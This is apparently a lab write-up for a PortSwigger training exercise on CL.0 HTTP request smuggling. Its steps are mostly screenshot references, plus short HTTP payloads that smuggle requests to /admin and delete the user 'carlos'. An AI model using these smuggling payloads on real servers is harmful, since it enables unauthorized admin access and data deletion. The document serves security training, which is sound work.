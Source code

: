 # CL.0 request smuggling

## This lab is vulnerable to CL.0 request smuggling attacks. The back-end server ignores the `Content-Length` header on requests to some endpoints.

## To solve the lab, identify a vulnerable endpoint, smuggle a request to the back-end to access to the admin panel at `/admin`, then delete the user `carlos`.

## This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out [Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling](https://portswigger.net/research/browser-powered-desync-attacks#cl.0).

step 1

open admin panel into browser

![screenshot](./images/images_lab15/lab15_access_admin_page.png)

step 2
change HTTP/2 to HTTP/1.1
add header body userid=test

![screenshot](./images/images_lab15/lab15_remove_header_from_svg_post_request.png)

step 3
add transfer-encoding: chunked

![screenshot](./images/images_lab15/lab15_add_transfer_encoding.png)

step 4

remove header
content-Length
transfer-encoding
cookie-session

![screenshot](./images/images_lab15/lab15_remove_some_header.png)

step 5
check resource folder and check status code for svg

![screenshot](./images/images_lab15/lab15_find_status_code_from_resource_file.png)

step 6
send blog.svg to repeater

![screenshot](./images/images_lab15/lab15_test_svg_into_repeter_get_request.png)

step 7
change get request to post request

![screenshot](./images/images_lab15/lab15_test_post_request_svg_repeater.png)

step 8

remove extra header
![screenshot](./images/images_lab15/lab15_remove_some_header_from_svg.png)

step 9

add header userid=test

![screenshot](./images/images_lab15/lab15_add_header_userid_test_svg.png)

step 10
remove cookie header

![screenshot](./images/images_lab15/lab15_increse_content_length_userid_test_svg.png)

step 11

![screenshot](./images/images_lab15/lab15_test_payload_get_request_svg.png)

step 12
add

```http
GET / HTTP/1.1
foo: x
```

![screenshot](./images/images_lab15/lab15_get_request_add_foo_header.png)

step 13

```http
Content-Length: 27

GET /admin HTTP/1.1
foo: x
```

![screenshot](./images/images_lab15/lab15_add_admin_get_request_svg_payload.png)

step 14

```http
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
foo: x
```

![screenshot](./images/images_lab15/lab15_delete_carlos_account.png)

![screenshot](./images/images_lab15/lab15_lab_solved.png)
